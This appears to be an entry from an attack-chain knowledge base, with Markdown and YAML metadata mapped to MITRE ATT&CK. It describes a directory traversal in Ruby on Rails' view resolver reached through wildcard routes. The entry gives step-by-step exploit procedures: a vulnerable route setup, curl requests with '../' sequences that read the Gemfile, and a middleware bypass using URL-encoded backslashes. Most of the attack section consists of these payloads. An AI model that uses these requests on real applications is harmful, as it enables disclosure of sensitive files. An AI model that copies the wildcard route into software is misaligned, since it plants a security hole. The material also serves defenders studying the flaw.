

---
tags:
  - directory-traversal
  - rails
  - ruby
  - information-disclosure
  - path-traversal-bypass
type: attack_chain
tools:
  - '[[tools/Rack-Protection-PathTraversal]]'
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Configure-Wildcard-Route-in-Rails]]'
  - '[[procedures/Exploit-Directory-Traversal-to-Read-Arbitrary-Files]]'
  - '[[procedures/Bypass-Path-Traversal-Middleware-with-Encoded-Backslashes]]'
step_count: 3
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
updated_at: '2025-12-14T17:26:12.391Z'
description: >-
  Exploits a directory traversal vulnerability in Ruby on Rails'
  ActionView::FileSystemResolver when wildcard routes are used, allowing
  rendering and disclosure of sensitive files outside the app/views directory,
  with a bypass for Rack::Protection::PathTraversal middleware using encoded
  backslashes.
skill_level: intermediate
impact_level: high
id: 3d3b064a-a317-4bf7-8516-a1d03a8776a0
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[File and Directory Discovery]]'
---
# Directory Traversal in Rails ActionView Resolver via Wildcard Routes to Disclose Arbitrary Files

Multi-stage attack chain demonstrating exploitation of a directory traversal in Ruby on Rails' view resolver to disclose sensitive files like the Gemfile from the project root.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Rack-Protection-PathTraversal]] (for understanding bypass)

### Target Environment

- Ruby on Rails application (version vulnerable to this issue, e.g., pre-patch)
- Web server exposing the Rails app
- Access to configure routes (for setup; in real attack, assume misconfigured app)

### Initial Access Requirements

- Network access to the Rails application (e.g., HTTP/HTTPS)
- No authentication required for public routes
- Prior knowledge of the app's route structure

## Detailed Attack Procedures

### Step 1: Configure Wildcard Route
procedure: [[procedures/Configure-Wildcard-Route-in-Rails]]

**Objective**: Set up a wildcard route in the Rails application to enable traversal via unmatched actions.

**Instructions**: Edit the routes.rb file to define a wildcard route and create a basic controller.

Use [[commands/rails-generate-controller]] to create the controller:

```bash
rails generate controller Help
```

Then add the route in config/routes.rb:

```ruby
get '/help/(*action)', to: 'help#index'
```

Ensure the HelpController is empty:

```ruby
class HelpController < ApplicationController
  def index
    # Empty to allow rendering of resolved view
  end
end
```

**Expected Output**: Rails server restarts without errors, wildcard route active.

**Success Indicators**:
- Route defined and controller generated
- No syntax errors on server start

### Step 2: Exploit Directory Traversal to Read Arbitrary Files
procedure: [[procedures/Exploit-Directory-Traversal-to-Read-Arbitrary-Files]]

**Objective**: Send a traversal request to render a file outside the views directory using Dir.glob in the resolver.

**Instructions**: Target the wildcard route with a path that traverses to the project root.

Execute [[commands/curl-basic-traversal]] against the running Rails app:

```bash
curl -X GET "http://localhost:3000/help/../../../Gemfile" -v
```

**Expected Output**: HTTP 200 response with the contents of the Gemfile rendered as HTML/text.

**Success Indicators**:
- Response body contains Gemfile contents (e.g., gem dependencies)
- No 404 or error; file rendered successfully

### Step 3: Bypass Path Traversal Middleware with Encoded Backslashes
procedure: [[procedures/Bypass-Path-Traversal-Middleware-with-Encoded-Backslashes]]

**Objective**: Evade Rack::Protection::PathTraversal if enabled, using URL-encoded backslashes to allow traversal.

**Instructions**: If middleware is present, use encoded backslashes in the path.

Execute [[commands/curl-encoded-backslash-traversal]]:

```bash
curl -X GET "http://localhost:3000/help/%5c../%5c../%5c../Gemfile" -v
```

**Expected Output**: HTTP 200 with Gemfile contents, bypassing the middleware check.

**Success Indicators**:
- Traversal succeeds despite middleware
- Response shows file contents without interception

## Attack Chain Summary

### Key Achievements

1. Configured vulnerable wildcard route enabling traversal
2. Disclosed arbitrary files via directory traversal in view resolver
3. Bypassed protective middleware using encoded paths

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Collection]] Collection

---

*Last updated: 2023-10-01T00:00:00Z*
